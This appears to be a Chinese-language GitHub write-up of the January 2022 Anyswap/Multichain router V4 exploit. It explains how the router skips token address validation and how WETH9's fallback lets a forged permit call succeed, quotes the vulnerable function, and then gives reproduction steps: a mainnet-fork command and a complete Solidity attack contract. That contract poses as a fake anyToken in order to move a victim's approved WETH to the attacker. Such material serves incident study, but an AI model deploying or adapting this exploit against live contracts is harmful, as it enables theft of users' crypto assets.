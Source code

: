 ### 事件简述

Anyswap是一个去中心化的跨链交换协议。

于2020年7月开始运行。

2021年7月11日, AnySwap Router V3 受到黑客攻击并损失787万美元。

2021年12月16日, Anyswap宣布更名为Multichain。

2022年1月18日，Multichain于medium发布漏洞预警信息，文章中称发现一严重漏洞，影响6个跨链Token，呼吁代币拥有者尽快转移资产。

尽管Multichain声称已经修复了漏洞，但是在当天还是有攻击者成功窃取了总价值约1400万美金的加密资产。



### 漏洞原理简析

1. `routerV4`合约没有对用户传入的Token地址做合法性校验

2. `WETH9`并不兼容`routerV4`的部分逻辑设计

* 漏洞代码

```js
function anySwap_OutUnderlying_WithPermit(
    address from,
    address token,
    address to,
    uint amount,
    uint deadline,
    uint8 v,
    bytes32 r,
    bytes32 s,
    uint toChainID
) external {
    address _underlying = AnyswapV1ERC20(token).underlying();
    IERC20(_underlying).permit(from, address(this), amount, deadline, v, r, s);
    TransferHelper.safeTransferFrom(_underlying, from, token, amount);
    AnyswapV1ERC20(token).depositVault(amount, from);
    _anySwapOut(from, token, to, amount, toChainID);
}
```


#### EIP-2612

EIP-2612为ERC-20标准增加了一个新的函数：`permit`

它允许用户在链下签署授权的交易，生成任何人都可以使用并提交给区块链的签名。

该标准优化了传统ERC20Token对用户不友好的两步过程：

```
approve + transferFrom
```

简单来说：过去要approve后我们才能把代币转给别的合约。
但如果该代币支持了permit(例如DAI)，那我们就可以透过在链下用私钥签署产生一个签名，
使用这个签名，别人（其他EOA或者合约地址）就可以帮我们呼叫permit然后把代币转走。

* 然而`WETH9`并不支持`EIP-2612`协议, 没有实现`permit`函数
* 并且如果强行调用`WETH9`上不存在的函数时, `WETH9`会返回`True`
* AnySwap在功能设计上没有考虑到规避这一点


### 攻击步骤分析

* 在正常使用逻辑中

用户调用`anySwapOutUnderlyingWithPermit`函数, 传入的token地址应为Anyswap官方部署的`anyERC20`地址, 在成功校验用户传入的签名后, 进行与之对应的`ERC20`转账操作.

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/3.png)


事实上Anyswap并没有部署与`WETH9`对应的`anyWETH`合约, 于是攻击者自己部署了一个假的

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/1.png)


这样攻击者就绕过了签名的校验, 把受害人的`WETH`转到了自己的账户

### 复现

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```


